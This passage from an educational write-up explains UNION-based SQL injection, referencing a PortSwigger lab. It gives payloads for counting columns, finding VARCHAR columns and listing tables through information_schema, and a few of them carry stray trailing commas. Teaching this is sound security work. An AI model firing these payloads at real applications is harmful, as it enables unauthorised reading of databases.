 Like said previously when we are hacking we don't have this information, we don't know the number and the types of the columns in the query.

Through UNION operator we can define a payload like the following one:

```text
'UNION SELECT NULL --
'UNION SELECT NULL, NULL --
'UNION SELECT NULL, NULL, NULL, --
...
```

The first two will give error since the syntax is incorrect (the column number doesn't match), but when we don't get an arror, with the third query we find that the number of columns in the query is 3.
We can repeat the same process also for the type, firstly we identify which colums are VARCHARS:

```text
'UNION SELECT 'a', NULL, NULL, --
'UNION SELECT NULL, 'a', NULL, --
'UNION SELECT NULL, NULL, 'a', --
...
```

Since the first and the last query will not give us any error we will discover that the first and last columns are varchars and the second is not.
If we want we can interact the same payload with other types to determine the types of other columns or we can conclude finding the user table:

```text
'UNION SELECT table_name, NULL, NULL FROM information_schema.tables --
```

![alt text](assets/images/union_info_schemas.png)
*A similar example taken from a [laboratory](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables) of PortSwigger Academy.<br/>In the url bar we can see the payload used and in the page the result showing the tables on the database.*
